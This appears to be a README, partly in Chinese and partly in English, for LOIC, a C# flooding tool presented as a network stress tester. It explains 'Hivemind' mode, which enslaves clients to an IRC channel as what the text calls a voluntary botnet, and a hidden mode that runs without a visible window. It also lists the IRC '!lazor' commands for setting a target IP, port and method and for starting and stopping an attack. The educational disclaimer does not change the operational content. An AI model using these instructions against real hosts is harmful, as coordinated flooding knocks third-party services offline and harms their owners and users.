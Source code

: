 ## INFO

低轨道离子炮（LOIC）是一款用 C# 编写的开源网络压力测试工具。LOIC 基于 Praetox 的 LOIC 项目（网址：https://sourceforge.net/projects/loic/）。

## DISCLAIMER

LOIC 仅供教育用途，旨在帮助服务器所有者培养“黑客防御”意识。本工具不提供任何担保。

**您不得将本软件用于非法或不道德的用途。这包括可能引起刑事或民事责任的活动。**

**在任何情况下，许可方均不对被许可方的任何活动或不当行为负责。**

## HOW TO RUN ON WINDOWS

获取二进制文件！

需要 Microsoft .NET Framework 3.5 Service Pack 1，下载地址：
http://www.microsoft.com/downloads/en/details.aspx?FamilyID=ab99342f-5d1a-413d-8319-81da479ab0d7&displaylang=en

## HIVEMIND/HIDDEN MODE

HIVEMIND 模式会将您的客户端连接到 IRC 服务器，以便对其进行远程控制。
您可以将其视为一个自愿的僵尸网络。请注意，您的客户端可能会被
控制去做一些不正当的事情。

注意：它不允许远程管理您的机器；它
只提供对 LOIC 本身的控制。

如果您想以 Hivemind 模式启动，请运行以下命令：

```
	LLOIC.exe /hivemind irc.server.address
```
这将连接到 irc://irc.server.adress:6667/loic

您还可以指定端口和频道：

```
	LLOIC.exe /hivemind irc.server.address 1234 #secret
```
这将连接到 irc://irc.server.adress:1234/secret

要运行 Hivemind 隐藏模式，请运行以下命令：

```
	LLOIC.exe /hidden /hivemind irc.server.address
```
它将连接到 irc://irc.server.adress:6667/loic，而没有任何可见的 GUI。

## CONTROLLING LOIC FROM IRC

As an OP, Admin or Owner, set the channel topic or send a message such as the following:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true
```

To start an attack, type:
```
	!lazor start
```

or append "start" to the END of the topic:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true start
```

To reset LOIC's options back to their defaults:
```
	!lazor default
```

To stop an attack:
```
	!lazor stop
```

and **be sure to remove "start" from the END of the topic**, if it exists, as well.

Take a look at the source code for more details.

## To Do List

| No.  |  method  |  Do  |
| :--: | :------: | :--: |
|  1   |   NTP    |  ❌   |
|  2   |   DNS    |  ❌   |
|  3   | teardrop |  ❌   |
|  4   |    -     |  ❌   |

